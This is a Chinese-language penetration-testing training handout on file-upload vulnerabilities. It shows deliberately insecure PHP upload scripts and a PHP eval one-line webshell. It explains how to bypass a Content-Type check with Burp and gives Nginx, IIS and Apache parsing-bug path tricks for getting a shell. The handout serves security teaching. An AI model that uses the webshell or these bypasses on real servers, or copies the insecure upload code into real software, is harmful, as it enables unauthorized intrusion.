 ```yaml
---
title: 米斯特白帽培训讲义 漏洞篇 文件上传
id: csdn53785053
---
```


# 米斯特白帽培训讲义 漏洞篇 文件上传

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0]([http://creativecommons.org/licenses/by-nc-sa/4.0](http://creativecommons.org/licenses/by-nc-sa/4.0)

我们首先看一下文件上传的流程图。

![](../img/f458229553be28385f7370f9ae1c0aff.png)

其中，浏览器通过上传页面将文件储存到服务器中。一般这些上传页面都会有限制（比如限制格式为`jpg/gif/png`等等，或者限制文件大小）。

我们所关注的这个上传页面，一旦限制了文件就可能导致我们的渗透测试失败。那么真的完全失败了吗？后面会讲到很多方法，代码本身我们突破不了，但是我们可以用这些方法来绕过限制。

漏洞页面大致分为两种，一种是不限制任何格式，随意上传，这种现在比较少了。另一种是限制`Content-type`，虽然它限制了文件类型，但我们就可以突破它。

## 任意文件上传

看一下这段代码：

```
<form action="" method="POST" ENCTYPE="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo '上传成功！';
else
    echo '上传失败！';
```

首先是一个文件上传表单，我们可以看到表单中多了一个`enctype`属性，是因为文件上传的格式和之前不一样，不加这个就无法识别了。

然后会检查是否接受到了上传文件，没有接收到就直接结束。之后会打印出文件信息，便于我们调试。之后将上传文件的名称和保存上传文件的目录拼接，将文件从临时目录移动到这个目录。最后输出成功或失败信息。

将其保存为`upfile.php`后，我们首先访问它并尝试上传一个文件。我们把一句话`<?php @eval($_POST['a']) ?>`写入`1.php`，然后把它上传到服务器。

![](../img/11cfc8c7620fbc83194a10d5956e0f9c.png)

于是我们看到上传成功。

![](../img/bca3ca047312e956074ef7550b12a6f7.png)

我们可以看到打印出的文件信息，其中：

*   `userfile`是这个文件在数组中的索引，也是表单中的文件上传输入框的名称。
*   `name`是这个文件的文件名。
*   `type`是这个文件的类型。
*   `tmp_name`是这个文件的临时完整路径。
*   `error`是错误代码。
*   `size`是文件大小。

之后，尝试直接访问所上传的文件，发现访问成功。

![](../img/4bfc784792162ecdbd4e0f719f062287.png)

然后我们就可以拿菜刀连接了。

![](../img/052f9f51f35e55c897182a633e283cac.png)

我们可以看到连接成功，那么我们就成功地 GetShell 了。

## 存在限制

如果`upfile.php`的内容变成这样：

```
<form action="" method="POST" enctype="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
if(@$_FILES['userfile']['type'] != "image/gif"){
        echo "对不起，我们只允许上传GIF格式的图片!!";
        exit;
}
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo "上传成功！";
else
    echo "上传失败！";
```

这段代码多出来的东西就是，它首先验证了文件类型，如果是`gif`则放过，不是则拦截。那么根据`multipart`编码类型，`type`这个东西在浏览器生成之后，是可以改的。我们可以通过 Burp 拦截并修改这个值。

首先我们打开 Burp，配置代理，访问`upfile.php`。之后开启拦截模式并上传一个文件：

我们拦截之后，找到`Content-Type`，发现他是`application/oct-stream`，我们把它改成`image/gif`，之后放行（可能需要多次，在我这里是这样）。

![](../img/efbf0132fac0b958f3e812c8b07efdfb.png)

![](../img/dfdd572d4492ac9b93dae9fbc8eb9a08.png)

然后我们可以看到上传成功，上传目录中出现了我们上传的文件。

![](../img/24028287d55bdf458e05f7ca6c491491.png)

![](../img/7120e37d9ca71cec036b6196b691d637.png)

## Nginx 解析漏洞

如果服务器是 Nginx，我们可以直接上传图片格式，利用解析漏洞拿 Webshell。漏洞成因是，由于 Nginx 部分版本程序自身的漏洞，导致可以解析并执行非脚本文件。

假设存在漏洞的站点上有一张图片，URL 地址为：

```
www.xxx.com/logo.jpg
```

我们正常访问时，Nginx 会把它当做非脚本，直接读取并传给客户端。但是如果我们这样访问：

```
www.xxx.com/logo.jpg/a.php
```

他就会把`logo.jpg`当做 PHP 文件来执行。或者是

```
www.xxx.com/logo.jpg%00.php
```

也会导致图片执行，这个是 7 月中旬爆出的解析漏洞。

要利用这个漏洞，我们可以随便找一张图片，在里面插入一句话：

![](../img/b687ab14dea02976a0212d74ac14f1ed.png)

我们将其上传之后，访问图片的 URL，确认上传成功。

![](../img/92df612b1ed2961568d6849dda2a8699.png)

然后我们利用该解析漏洞构造 URL，发现也能够成功访问，也能拿菜刀来连接。

![](../img/4854624e229505e2adb5d8ea7505d06a.png)

![](../img/c8c4cb129d4da0be75c1012d32b93e2b.png)

## IIS 解析漏洞

IIS 5.x/6.0 主要存在两个解析漏洞，第一个是目录解析：

```
/a.asp/b.jpg
```

其中`a.asp`是目录，`b.jpg`是真实存在的文件，那么`b.jpg`会当做`asp`文件来执行。这个漏洞需要我们能够创建目录。

第二个是文件解析，也就是分号截断：

```
a.asp;.jpg
```

这个文件的扩展名在上传时是`jpg`，但是上传之后，IIS 会把它当做`asp`文件来解析。

另外，在IIS 中，可执行脚本的扩展名除了`asp`之外，还有`asa`、`cdx`、`cer`。许多网站往往就过滤不全，一定要重视！！

## Apache 解析漏洞

Apache 的解析漏洞比较有意思，它从右到左解析扩展名，如果碰到不认识的扩展名，则继续往下解析。比如我们上传`a.php.x1.x2.x3`，它按照`x3 x2 x1 php`的顺序解析扩展名，但是他不认识后面三个，所以只能将其解析为`php`。但在文件上传时，文件的扩展名一直是`x3`，所以可以绕过一些校验。

## 参考

*   [文件解析漏洞总结](http://blog.csdn.net/wizardforcel/article/details/50695896)